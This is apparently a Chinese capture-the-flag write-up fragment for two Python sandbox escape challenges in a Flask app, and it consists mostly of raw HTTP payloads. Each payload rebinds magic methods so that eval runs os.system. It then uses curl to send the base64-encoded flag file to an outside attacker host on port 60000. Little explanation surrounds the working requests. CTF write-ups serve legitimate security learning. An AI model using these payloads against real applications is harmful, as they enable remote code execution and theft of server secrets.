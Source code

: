 
`["\u0000", "\u0001", "\u0002", "\u0003", "\u0004", "\u0005", "\u0006", "\u0007", "\b", "\t", "\n", "\u000b", "\f", "\r", "\u000e", "\u000f", "\u0010", "\u0011", "\u0012", "\u0013", "\u0014", "\u0015", "\u0016", "\u0017", "\u0018", "\u0019", "\u001a", "\u001b", "\u001c", "\u001d", "\u001e", "\u001f", " ", "!", "\"", "#", "$", "%", "&", "'", "(", ")", "{", "|", "}", "~", "\u007f"]`


利用魔术方法? : `__getitem__,__getattr__`

payload:
```
POST /?a=__import__('os').system('curl+http%3a//ccreater.top%3a60000/+-d+`cat+flag|base64`') HTTP/1.1
Host: 39.104.90.30:10006
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://39.104.90.30:10006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx3B8HB5b
Content-Length: 248

------WebKitFormBoundaryx3B8HB5b
Content-Disposition: form-data; name="cmd"

request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
------WebKitFormBoundaryx3B8HB5b--
```

### pysandbox2

payload:

```
POST /?a=__import__('os').system('curl+http%3a//ccreater.top%3a60000/+-d+`/readflag|base64`') HTTP/1.1
Host: 39.104.90.30:10006
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://39.104.90.30:10006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx3B8HB5b
Content-Length: 248

------WebKitFormBoundaryx3B8HB5b
Content-Disposition: form-data; name="cmd"

request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
------WebKitFormBoundaryx3B8HB5b--

```
